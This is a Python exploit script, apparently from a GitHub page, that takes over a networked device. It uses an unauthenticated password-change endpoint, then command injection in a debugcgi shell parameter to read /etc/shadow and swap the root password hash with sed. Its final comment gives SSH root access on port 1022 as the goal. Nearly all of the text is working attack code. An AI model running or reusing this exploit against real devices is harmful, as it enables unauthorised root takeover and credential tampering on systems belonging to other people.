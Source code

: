 ```
base_url = 'http://' + ip + '/cgi-bin/adv/debugcgi?msubmenu=shell&amp;command=ls&amp;command_arg=/...;'
 
 
# Take a command and use command injection to run it on the device
def run_command(command):
       # Convert a normal command into one using bash brace expansion
       # Can't send spaces to debugcgi as it doesn't unescape
       command_brace = '`{`' + ','.join(command.split(' ')) + '`}`'
       command_url = base_url + command_brace
 
       # HTTP digest auth for urllib2
       authhandler = urllib2.HTTPDigestAuthHandler()
       authhandler.add_password(realm, command_url, web_username, web_password)
       opener = urllib2.build_opener(authhandler)
       urllib2.install_opener(opener)
 
       return urllib2.urlopen(command_url)
 
# Step 1 - change the web password using the unauthed vuln found by zenofex
data = urllib.urlencode(`{` 'data' : 'NEW;' + web_password `}`)
urllib2.urlopen('http://' + ip + '/classes/class_admin_privatekey.php', data)
 
# Need to sleep or the password isn't changed
time.sleep(1)
 
# Step 2 - find the current root password hash
shadow = run_command('cat /etc/shadow')
 
for line in shadow:
       if line.startswith('root:'):
              current_hash = line.split(':')[1]
 
# Crypt the new password
new_hash = crypt.crypt(root_password, '00')
 
# Step 3 - Use sed to search and replace the old for new hash in the passwd
# This is done because the command injection doesn't allow a lot of different URL encoded chars
run_command('sed -i -e s/' + current_hash + '/' + new_hash + '/g /etc/shadow')
 
# Step 4 - check that the password has changed
shadow = run_command('cat /etc/shadow')
 
for line in shadow:
       if line.startswith('root:'):
              current_hash = line.split(':')[1]
 
if current_hash &lt;&gt; new_hash:
       print 'Error! - password not changed'
 
# Step 5 - ssh to port 1022 with new root password!
```
